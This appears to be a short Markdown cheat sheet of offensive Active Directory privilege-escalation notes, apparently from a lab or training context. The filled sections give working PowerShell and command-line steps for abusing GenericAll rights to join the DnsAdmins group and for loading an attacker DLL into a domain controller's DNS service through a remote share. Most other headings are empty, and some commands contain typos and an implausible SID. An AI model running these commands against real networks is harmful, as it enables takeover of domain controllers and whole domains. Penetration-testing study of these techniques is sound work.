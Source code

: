 # Domain Privilege Escalation

> N.B.: You need a local admin access to do these attacks.

## ACL - Generic All

```powershell
Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll')}

Get-ObjectAcl -SamAccountName DnsAdmins -ResolveGUIDs | ? {($_.ActiveDirectoryRights -match 'GenericAll') -and ($_.SecurityIdentifier -match 'S-1-55465134614643146434643614646467'}
```
Adding yourself as a member

```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1' 
Get-DomainUser -name 'student1'
Get-DomainGroup -SamAccountName DnsAdmins
```

## ACL - GenericWrite on User

## PrintNightmare (CVE-2021-34527)

## PrivEsc - DNS Admins 

[DNS Admins PrivEsc Guide by iRedTeam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
```powershell
rundll32.exe .\dnsprivesc.dll,DnsPluginInitialize

dnscmd dc.pentesting.local /config /serverlevelplungindll \\student\share\privesc.dll

Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

sc.exe \\dc01 stop dns
sc.exe \\dc01 start dns
```

## DCSync0

## ZeroLogon (CVE-2020-1472)

## Unconstrained delegation

## constrained Delegation

## SET-SPN - Kerberoast

## ASPRoasting
